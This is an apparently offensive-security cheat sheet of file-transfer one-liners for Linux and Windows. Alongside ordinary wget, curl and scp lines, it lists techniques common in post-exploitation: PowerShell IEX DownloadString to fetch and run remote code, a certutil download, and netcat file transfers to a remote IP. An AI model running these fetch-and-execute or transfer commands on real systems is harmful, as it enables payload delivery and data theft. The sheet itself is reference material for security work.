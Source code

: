 ## Linux
### PYTHON
```
python -m SimpleHTTPServer <PORT>
python2.7 -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"
```

### FTP
```
sudo python3 -m pyftpdlib  -p 21 -w
```

### SMB
```
sudo smbserver.py -smb2support liodeus
```

### WGET
```
wget <URL> -o <OUT_FILE>
```

### CURL
```
curl <URL> -o <OUT_FILE>
```

### NETCAT
```
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>
``` 

### SCP
```
pscp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>
```
* * *
## Windows
### FTP 
```
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt
```

### SMB
```
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux
```

### Powershell
```
powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"
powershell -c "(new-object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')"
```

### Python
```
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"
```

### CertUtil
```
certutil.exe -urlcache -split -f "<URL>"
```

### NETCAT
```
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>
```

### CURL
```
curl <URL> -o <OUT_FILE>
```